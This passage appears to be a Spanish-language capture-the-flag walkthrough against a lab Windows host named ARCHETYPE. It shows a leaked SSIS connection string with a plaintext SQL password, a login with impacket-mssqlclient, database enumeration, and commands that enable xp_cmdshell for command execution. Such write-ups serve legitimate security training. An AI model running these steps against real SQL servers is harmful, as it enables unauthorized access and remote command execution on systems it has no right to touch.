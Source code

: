 ```shell
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>
```

🗹 Dada la información filtrada accedemos al servidor SQL Server usando el usuario y contraseña encontrados en el archivo de configuración mediante `impacket-mssqlclient`:

```shell
impacket-mssqlclient ARCHETYPE/sql_svc@10.129.214.33 -windows-auth

Impacket v0.12.0.dev1+20240308.164415.4a62f391 - Copyright 2023 Fortra

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL (ARCHETYPE\sql_svc  dbo@master)> show databases;
ERROR: Line 1: Could not find stored procedure 'show'.
```

🗹 Enumerar las bases de datos:

```shell
SQL (ARCHETYPE\sql_svc  dbo@master)> enum_db
name     is_trustworthy_on   
------   -----------------   
master                   0   

tempdb                   0   

model                    0   

msdb                     1 
```

[¿Qué es **xp_cmdshell**? ](https://learn.microsoft.com/es-es/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver16)  
[Configurar xp_cmdshell](https://learn.microsoft.com/es-es/sql/database-engine/configure-windows/xp-cmdshell-server-configuration-option?view=sql-server-ver16)  

🗹 Habilitar la opción de configuración xp_cmdshell de SQL Server para activar la ejecución de comandos:

```shell
EXEC sp_configure ‘show advanced options’, 1;
RECONFIGURE;
EXEC sp_configure ‘xp_cmdshell’, 1;
RECONFIGURE;
```
